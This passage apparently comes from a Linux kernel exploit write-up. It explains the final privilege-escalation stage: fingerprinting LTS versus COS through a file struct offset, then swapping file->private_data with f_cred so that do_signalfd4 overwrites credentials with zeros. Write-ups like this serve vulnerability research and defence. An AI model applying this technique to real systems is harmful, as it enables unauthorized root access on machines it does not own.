 Then we perform instance fingerprinting by examining the offset `0x70` of the first file in the slab. For LTS, this offset corresponds to `file->f_cred`, while for COS, it is `NULL`:

```c
uint64_t cred_offset = FILE_CRED_OFFSET_LTS;
if (!page[FILE_CRED_OFFSET_LTS/sizeof(uint64_t)])
	cred_offset = FILE_CRED_OFFSET_COS;
```

Using the page-level R/W primitive, we swap the `file->private_data` pointer with `file->f_cred` for all the file in the slab. This gives us a qword write primitive when [do_signalfd4()](https://elixir.bootlin.com/linux/v6.6.90/source/fs/signalfd.c#L292) is called:

```c
static int do_signalfd4(int ufd, sigset_t *mask, int flags)
{
	struct signalfd_ctx *ctx;

	// ...

	if (flags & ~(SFD_CLOEXEC | SFD_NONBLOCK))
		return -EINVAL;

	sigdelsetmask(mask, sigmask(SIGKILL) | sigmask(SIGSTOP));
	signotset(mask);

	if (ufd == -1) {
		struct file *file;

		ctx = kmalloc(sizeof(*ctx), GFP_KERNEL);
		if (!ctx)
			return -ENOMEM;

		ctx->sigmask = *mask;

		// ...
		file = anon_inode_getfile("[signalfd]", &signalfd_fops, ctx,
				       O_RDWR | (flags & O_NONBLOCK));
		// ...
	} else {
		// ...
		// We swapped file->private_data with file->f_cred
		// So here ctx = file->f_cred
		ctx = fd_file(f)->private_data; 
		// ...
		ctx->sigmask = *mask; // Overwrite f_cred
		// ...
	}

	return ufd;
}
```

We use this write primitive to set the process credentials to zero. Since we cannot control the lower bytes of the signalfd mask, we write backwards, starting from `cred + 48`, utilizing the upper bytes of the mask, which are set to zero.
